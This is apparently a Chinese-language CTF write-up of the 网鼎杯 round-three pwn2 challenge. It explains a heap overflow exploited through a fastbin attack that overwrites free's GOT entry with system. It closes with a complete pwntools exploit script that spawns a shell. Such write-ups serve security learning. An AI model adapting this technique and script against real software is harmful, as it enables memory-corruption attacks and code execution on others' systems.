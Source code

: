 ```yaml
---
title: 网鼎杯第三场Pwn2
date: 2018-08-28 08:37:40
tags: [CTF, PWN]
categories: 网鼎杯
---
```

## 网鼎杯 第三场 pwn2 wp
​	昨天群里群主说网鼎杯有道pwn2已经写能写got表了，但是最后还是没有做出来，很好奇就去看了一下。  
	<!--more-->
	经典选单程序不多说，先来找一波漏洞。add函数将size和chunk ptr交错置于bss段上，delete函数没有uaf，但是edit函数中存在溢出，那就好办了，已知的符合此种情况的攻击方式貌似很多，unlink和fastbin attack，unsorted bin attack，top chunk attack理论上应该都是可以的，因为可以任意溢出，这里的话我用的是fastbin attack。毕竟检查比较方便，也只要构造单向链表。  
	这里的思路是通过构造fake chunk之后利用house of spirit写free_got，当然atoi_got应该也是可以的，待会去试下，同时在堆上存一个/bin/sh，之后delete一下就能get shell了，说起来很简单，其实坑也很多,但是说白了其实也是自己对堆管理模式还是不够清楚，网鼎杯后打算好好补一波理论了。  
坑点1：  
	需要修改fake chunk的size段使其满足在0x70的fastbin中，因为之后我们写的chunk size为0x7f，这里需要满足下，否在程序会报错"malloc():memory corruption(fast)"，出现这个报错一般就是fastbin中的size不匹配问题了。比如说如果fastbin是0x20，那么chunk的size也必须是0x20。  
坑点2：  
	read之后的加'\x00'操作，如果直接p64()写got表的话容易溢出\x00到目标got的后一个got，可能会对程序流程有一定的影响，同样的，edit的长度也要注意下，否则容易把'\x0a'写入到目标got的后一个got中影响程序流程。  
大概就是这样了，这道题方法应该很多，有空可以试试其它方法，加深一下理解。

```
from pwn import *
p=process('./pwn')
elf=ELF('./pwn')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
#gdb.attach(p,'''
#	break *0x0000000000400E58
#	continue
#''')
def add(size,x):
	p.recvuntil('Your choice:')
	p.sendline('2')
	p.recvuntil('Please enter the length of servant name:')
	p.sendline(str(size))
	p.recvuntil('Please enter the name of servant:')
	p.sendline(x)

def dele(idx):
	p.recvuntil('Your choice:')
	p.sendline('4')
	p.recvuntil('Please enter the index of servant:')
	p.sendline(str(idx))

def edit(idx,size,x):
	p.recvuntil('Your choice:')
	p.sendline('3')
	p.recvuntil('Please enter the index of servant:')
	p.sendline(str(idx))
	p.recvuntil('Please enter the length of servant name:')
	p.sendline(str(size))
	p.recvuntil('Please enter the new name of the servnat:')
	p.sendline(x)

def show():
	p.recvuntil('Your choice:')
	p.sendline('1')

add(0x68,'a'*0x68)
add(0x68,'b'*0x68)
add(0x68,'c'*0x68)
add(0x60,'/bin/sh\x00')
dele(1)
#edit(0,0x68+0x10+0x8,'1'*0x68+p64(0x71)+p64(0x00000000006020C0-0x13))
edit(0,0x68+0x10+0x8,'1'*0x68+p64(0x71)+p64(0x00000000006020C0-0x13))
add(0x68,'a'*0x68)
add(0x68,'\x00'*3+p64(0x68)+p64(elf.got['free']))
show()
p.recvuntil('0 : ')
free_address=u64(p.recv(6).ljust(8,'\x00'))
#print hex(free_address)
log.info('free_address > '+hex(free_address))
libc_base=free_address-libc.symbols['free']
system_address=libc_base+libc.symbols['system']
log.info('system_address > '+hex(system_address))
#edit(2,0x8,'/bin/sh\x00')
edit(0,0x7,p64(system_address)[0:7])
dele(3)
p.interactive()

```

